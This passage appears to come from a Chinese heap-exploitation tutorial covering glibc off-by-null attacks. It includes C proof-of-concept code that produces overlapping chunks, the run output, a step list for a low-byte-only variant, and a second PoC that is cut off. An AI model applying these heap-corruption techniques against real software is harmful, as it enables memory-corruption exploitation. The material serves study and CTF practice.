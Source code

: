 ```c
    char* chunk2=malloc(0xf8);
    char* chunk3=malloc(0xf8);
    malloc(0x10);
    for(int i=0;i<7;i++)
    {
        free(chunkarray[i]);
    }
    
    free(chunk1);
    *(size_t*)(&chunk2[0xf0])=0x200; //prev_size
    chunk2[0xf8]=0;  // chunk2 size low byte

    free(chunk3);
    char* chunk4=malloc(0x2f0);

    printf("chunk4 data begin %p \n",chunk4);
    printf("chunk4 size %p \n",*(size_t*)(chunk4-8));
    printf("chunk2  %p \n",chunk2);
    printf("&chunk4[0x100] %p \n",&chunk4[0x100]);

}
```

```c
chunk4 data begin 0x55555555b960 
chunk4 size 0x301 
chunk2  0x55555555ba60 
&chunk4[0x100] 0x55555555ba60 

```

### 只能控制size的低字节
如果不是在输入的内容后面一个字节写 0 ，即在下一个 chunk 的 size 最低 1 字节写 0 但不能控制 prev_size 时可以采用下面的方法


- 分配chunk1 chunk2 chunk3
- 释放掉chunk2，chunk1 溢出该chunk2的size改低字节为零（改小了，这样当分配完chunk2也不会改到chunk3的prev_size和size）
- 分配chunk4 chunk5从chunk2中分割出来，此时把改小的chunk2给分配完，然后释放chunk4
- 释放chunk3，此时chunk3由于之前残留的prev_size，认为原来的chunk2是它的相邻的前一个chunk，合并后，此时malloc申请可以控制chunk5
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/3048cf3313134899b1893fb7267fbe8f.png)

但glibc-2.26加入检测 unlink的检测，当改size后再malloc从unsortedbin中分割时，会先unlink在unsortedbin中的chunk。如果改了size，会校验不相等
```c
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			
```

#### poc

```python
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>


int main()
{    
    char* chunkarray[0x10];

    char* chunk1=malloc(0x200);
    char* chunk2=malloc(0x200);
    char* chunk3=malloc(0x200);
    malloc(0x10);
   
```
